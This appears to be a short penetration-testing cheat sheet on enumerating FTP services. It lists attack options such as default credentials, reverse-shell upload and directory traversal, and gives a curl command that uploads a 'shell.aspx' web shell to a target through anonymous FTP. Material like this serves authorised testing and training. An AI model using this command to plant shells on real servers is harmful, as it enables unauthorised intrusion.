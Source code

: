 # Common Service Enumeration

## FTP (21)
- Commom Credentials
- File upload
- File download
- Upload Reverse Shell
- Directory Traversal

## Upload a file using curl with anonymous FTP
```
curl -T shell.aspx ftp://<ip address>/shell.aspx --user anonymous:guest
```